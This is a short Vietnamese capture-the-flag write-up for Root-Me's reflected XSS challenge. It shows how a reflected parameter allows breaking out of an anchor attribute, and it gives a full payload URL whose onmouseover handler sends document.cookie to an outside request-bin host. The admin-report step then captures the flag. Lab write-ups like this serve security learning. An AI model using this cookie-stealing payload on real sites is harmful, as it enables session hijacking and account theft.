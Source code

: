 # WRITE UP

## **Challenge: [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)**

Kiểm tra source website ta thấy web bị comment 1 thẻ &lt;a&gt; dẫn đến ?p=security:

<img src="./media/image1.png" style="width:6.5in;height:2.89861in" alt="Text Description automatically generated" />

Request đến ?p=security, website hiển thị trang web lỗi và có một hyperlink thẻ &lt;a&gt; hiển thị nội dung ‘security’:

<img src="./media/image2.png" style="width:6.5in;height:3.03403in" alt="Graphical user interface, text, application Description automatically generated" />

Thử nhập ?p=&lt;giá trị khác&gt;, page sẽ báo lỗi và hiển thị nội dung &lt;giá trị khác&gt; trong thẻ &lt;a&gt;. Như vậy, lợi dụng thẻ &lt;a&gt; này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

<img src="./media/image3.png" style="width:6.5in;height:2.2625in" alt="Graphical user interface, text, application Description automatically generated" />

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event ‘onmouseover’ và di chuyển chuột qua thẻ &lt;a&gt; để chuyển hướng website:

<img src="./media/image4.png" style="width:6.5in;height:1.03958in" alt="Graphical user interface, application Description automatically generated" />

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

<img src="./media/image5.png" style="width:5.21935in;height:2.0922in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image6.png" style="width:6.5in;height:1.86042in" alt="Graphical user interface, text Description automatically generated" />

Qua RequestBin và nhận flag:

<img src="./media/image7.png" style="width:6.5in;height:1.94931in" alt="Graphical user interface, text, application Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
